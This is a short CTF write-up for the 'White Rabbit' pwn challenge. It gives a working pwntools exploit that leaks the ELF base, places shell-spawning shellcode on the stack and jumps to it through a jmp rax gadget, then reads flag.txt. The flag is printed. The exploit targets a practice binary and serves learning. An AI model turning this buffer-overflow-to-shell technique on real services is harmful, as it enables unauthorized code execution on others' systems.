 https://ctftime.org/event/2572

# White Rabbit (pwn)

Just a nice easy warmup for you...

nc whiterabbit.chal.wwctf.com 1337

## Solution

1) Use leak to get elf base
2) Write shellcode to the stack such that rax is equal to the start of the shellcode
3) Use jmp rax gadget / ret2reg to call shellcode

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./white_rabbit", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="b follow")
p = remote("whiterabbit.chal.wwctf.com", 1337)

p.readuntil(b"> ")
leak = int(p.readline().decode(), 16)
elf.address = leak - elf.sym["main"]

JMP_RAX = 0x00000000000010bf
# gets sets rax to &buf

payload = asm(shellcraft.sh())
payload = payload.ljust(0x78, b"A")
payload += p64(JMP_RAX + elf.address)
p.sendline(payload)

p.sendline(b"/bin/cat flag.txt")

p.interactive() # wwf{jmp_d0wn_th3_r4bb1t_h0le_0caba44088}
```

## Flag
`wwf{jmp_d0wn_th3_r4bb1t_h0le_0caba44088}`

smiley 2024/12/01
